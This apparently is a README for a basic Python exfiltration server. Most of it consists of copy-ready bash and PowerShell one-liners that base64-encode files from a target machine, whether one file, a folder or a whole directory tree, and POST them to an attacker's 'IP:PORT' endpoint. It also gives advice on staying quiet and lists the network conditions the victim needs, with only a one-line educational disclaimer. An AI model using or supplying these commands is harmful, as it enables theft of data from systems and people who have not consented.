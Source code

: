 # Summary
Hello guys, here I share an basic Python script to use as an Exfiltration Server.<br>
Remember that this is not an professional tool, it's simple for fast usage.<br>
This script may be really noisy, so be sure that you already collected everything silent<br>
If you have an idea of adjusts, let me know! :)<br>

> [!!!] Please be informed that the script provided is solely for informational and educational purposes only.

# Instructions
1 - First of all, be sure of the port you want to open and edit on the server.py<br>
2 - Be sure that you are running the server using bash screen or tmux, to hold it opened<br>
3 - Run the command using Python3<br>
```bash
$ python3 server.py
```
4 - Now on the target, there are some ways to exfiltrate, based on operation system:<br>

# Unix
- Single File
```bash
$ cat file.txt | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-
```

- Multiple Files on the same folder
```bash
$ ls -p | grep -v / >> files_list
$ for x in $(cat files_list); do cat $x | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-; done
```

- Multiple Files on all the subfolders from the current directory
```bash
$ find ./ -type f >> files_list
$ for x in $(cat files_list); do cat $x | base64 -w 0 | curl -XPOST 'http://IP:PORT/post' --data-binary @-; done
```

# Windows
- Single File
```powershell
powershell -c "$EncodedBase64 = [convert]::ToBase64String((Get-Content -path '.\sensitive_file.txt' -Encoding byte)); Invoke-WebRequest -Uri 'http://IP:PORT/post' -Method Post -Body $EncodedBase64"
```

- Multiple Files on the same folder
```powershell
powershell -c "$files = Get-ChildItem -File -Name; ForEach ($file in $files) {$EncodedBase64 = [convert]::ToBase64String((Get-Content -path $file -Encoding byte)); Invoke-WebRequest -Uri 'http://IP:PORT/post' -Method Post -Body $EncodedBase64}"
```

- Multiple Files on all the subfolders from the current directory
```powershell
powershell -c "$files = Get-ChildItem -File -Name -Recurse; ForEach ($file in $files) {$EncodedBase64 = [convert]::ToBase64String((Get-Content -path $file -Encoding byte)); Invoke-WebRequest -Uri 'http://IP:PORT/post' -Method Post -Body $EncodedBase64}"
```

# Requirements
Since we are talking of an HTTP Exfiltration, we should meet some requirements for the victim server:

- Free access to the internet
- No proxy (Some of them, may block)
- Curl installed
- Powershell acessible